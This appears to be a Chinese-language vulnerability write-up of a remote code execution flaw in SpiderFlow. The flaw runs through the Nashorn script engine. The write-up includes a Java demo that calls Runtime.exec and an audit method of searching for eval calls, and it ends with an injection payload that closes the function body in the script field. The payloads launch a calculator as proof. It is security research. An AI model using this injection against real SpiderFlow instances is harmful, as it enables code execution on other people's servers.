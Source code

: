 ### SpiderFlow RCE via Nashorn

#### 前置知识

— Nashorn是什么？怎么用？

##### What

Nashorn是于Java 8中用于取代Rhino（Java 6，Java 7）的JavaScript引擎。

##### How

> 实现如何用Nashorn在Java中执行JS代码即可

![image-20220102181550828](readme.assets/image-20220102181550828.png)

测试效果

![image-20220102181612329](readme.assets/image-20220102181612329.png)

##### RCE 

Nashorn定义了一个称为Java的新的全局对象，它包含许多有用的函数来使用Java包和类。

Java对象的` type()`函数将Java类型导入脚本中。

示例

![image-20220102182241321](readme.assets/image-20220102182241321.png)

那么如何弹计算器的呢？

示例

```java
package org.spiderflow.demo;

import javax.script.ScriptEngine;
import javax.script.ScriptEngineManager;
class JsFromJava{
    public static void main(String args[]) throws Exception {
        String evilJs="var RCETest= Java.type(\"java.lang\"+\".Runtime\"); var rt = RCETest.getRuntime(); rt.exec(\"calc\");";
        ScriptEngineManager manager = new ScriptEngineManager(null);
        ScriptEngine engine = manager.getEngineByName("nashorn");
        engine.eval(evilJs);
    }
}
```

![image-20220102182630383](readme.assets/image-20220102182630383.png)

#### 审计思路

有了上面的测试，审计这类漏洞尝试搜索`.eval(`等关键字即可，然后再看看源码是否实现`jdk.nashorn.api.scripting.ClassFilter`进行了过滤。

#### 漏洞复现

- 全局搜索`.eval(`

![image-20220102183719108](readme.assets/image-20220102183719108.png)

- 跟进

  - org.spiderflow.core.script.ScriptManager#registerFunction

    ![image-20220102184652005](readme.assets/image-20220102184652005.png)

  - org.spiderflow.core.script.ScriptManager#concatScript

    ![image-20220102184309834](readme.assets/image-20220102184309834.png)

- 构造payload,闭合一下

  ```js
  # function+functionName+(+parameters+)+{+script+}
  	functionName: rce
  	parameters: demo
  	script:	}Java.type("java.lang.Runtime").getRuntime().exec('calc');{
  # function rce(){demo}Java.type("java.lang.Runtime").getRuntime().exec('calc');{}
  ```

  复现效果：

  ![image-20220102191038717](readme.assets/image-20220102191038717.png)

  
